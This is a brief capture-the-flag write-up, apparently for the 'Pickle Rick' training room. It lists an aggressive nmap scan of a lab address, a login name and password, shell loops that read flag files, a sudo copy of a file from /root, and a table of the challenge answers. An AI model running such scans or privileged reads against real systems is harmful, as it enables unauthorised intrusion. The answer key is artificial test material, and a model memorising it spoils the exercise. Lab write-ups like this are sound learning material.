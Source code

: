 # Pickle Rick

nmap scan
``` nmap -A -T5 -p- -Pn 10.10.75.151 -oN aggresive_scan.txt
```

username : `R1ckRul3s` and password : `Wubbalubbadubdub` for login.php

reading the ingredient 1
``` while read line; do echo $line; done < Sup3rS3cretPickl3Ingred.txt
```
reading the second ingredient
``` while read line; do echo $line; done < "/home/rick/second ingredients"
```
reading 3rd ingredient
```
sudo cp /root/3rd.txt /home/rick/

while read line; do echo $line; done < /home/rick/3rd.txt

```

| Questions | Answers |
|-----------|---------|
| What's the first ingredient Rick needs ? | mr. meeseek hair |
| What's the second ingredient Rick needs ? | 1 jerry tear |
| What's the final ingredient Rick needs ? | fleeb juice |

